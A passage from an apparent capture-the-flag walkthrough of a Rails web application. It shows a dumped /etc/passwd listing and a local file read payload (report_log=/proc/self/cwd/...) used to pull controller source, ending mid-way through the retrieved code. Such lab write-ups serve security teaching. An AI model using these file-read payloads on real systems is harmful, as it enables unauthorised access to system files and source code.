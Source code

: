     avahi:x:111:115:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
    admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
    openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
    systemd-timesync:x:994:994:systemd Time Synchronization:/:/usr/sbin/nologin
    systemd-coredump:x:993:993:systemd Core Dumper:/:/usr/sbin/nologin
    rails:x:1000:100::/home/rails:/bin/bash
    _laurel:x:996:992::/var/log/laurel:/bin/false
    marcus:x:1001:1002:,,,:/home/marcus:/bin/bash
    

#### Application Source

From the `/rails/info/routes` path, I have a list of the controllers and the
function in them assigned to each path on the server. (Without this file I
could retrieve this information from `config/routes.rb` in the application
directory.)

There’s a [standard naming
scheme](https://gist.github.com/iangreenleaf/b206d09c587e8fc6399e#controllers)
for Rails application controllers:

> Controller _class names_ use `CamelCase` and have `Controller` as a suffix.
> The `Controller` suffix is always singular. The name of the resource is
> usually **plural**.
>
> Controller _actions_ use `snake_case` and usually match the standard route
> names Rails defines (`index`, `show`, `new`, `create`, `edit`, `update`,
> `delete`).
>
> Controller files go in `app/controllers/#{resource_name}_controller.rb`.

I expect to find the admin controller in
`app/controllers/admin_controller.rb`. I don’t know the absolute path to the
application, but I can use `/proc/self/cwd` to get there. I’ll update the POST
body to `report_log=/proc/self/cwd/app/controllers/admin_controller.rb`. The
source comes back:

    
    
    class AdminController < ApplicationController
      def index
        if !is_admin?
          flash[:error] = "You must be an admin to access this section"
          redirect_to :login
        end
    
        @report_file = helpers.get_report_file()
    
        @files = Dir.glob("report*log")
        p @files
      end
    
      def create
        if !is_admin?
          flash[:error] = "You must be an admin to access this section"
          redirect_to :login
        end
    